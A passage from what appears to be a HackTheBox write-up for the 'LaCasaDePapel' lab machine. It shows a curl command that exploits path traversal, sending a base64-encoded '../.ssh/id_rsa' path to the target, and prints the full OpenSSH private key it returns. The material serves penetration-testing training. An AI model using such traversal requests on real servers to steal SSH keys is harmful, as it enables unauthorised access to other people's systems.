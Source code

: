 Or we can just download it from browser,

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/10.png)

And we can see there is a ```.ssh``` directory, lets look for ```ssh keys```

![](https://raw.githubusercontent.com/AidenPearce369/OSCP-HTB/main/LaCasaDePapel/img/11.png)

Lets download ```id_rsa``` key for ```SSH``` access

Downloading through ```curl```,

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/LaCasaDePapel]
└─$ curl -k https://10.10.10.131/file/$(echo -n "../.ssh/id_rsa" | base64)
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
                                   
```